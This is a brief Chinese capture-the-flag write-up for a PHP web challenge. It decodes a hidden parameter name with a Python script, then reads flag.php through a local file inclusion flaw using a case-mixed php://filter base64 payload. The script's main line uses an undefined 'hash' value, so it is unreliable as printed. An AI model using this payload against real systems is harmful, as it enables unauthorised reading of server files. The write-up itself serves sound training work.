 ## webinclude


***

出题人：mikannse

![image-20240413223225849](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413223225849.png)

访问得到需要参数，存在index.bak文件，下载查看。存在两个函数，并且利用这两个函数将参数名进行加密，加密后的hash值为dxdydxdudxdtdxeadxekdxea

编写解密脚本：

```python
def textToarray(hash):
    array =[]
    for c in hash:
        code = ord(c)
        array.append(code-97)
    return array


def arrayTostring(array):
    string=''
    for i in range(0,len(array),2) :
        string+= chr(array[i]*26+array[i+1])
    return string

if __name__ == '__main__':
    print (arrayTostring((textToarray((arrayTostring((textToarray(hash))))))))

```

解得参数名为mihoyo,而且存在文件包含漏洞，并且当前目录存在一个flag.php,利用伪协议读取得到flag

```
?mihoyo=pHp://FilTer/convert.base64-encode/resource=flag.php

```





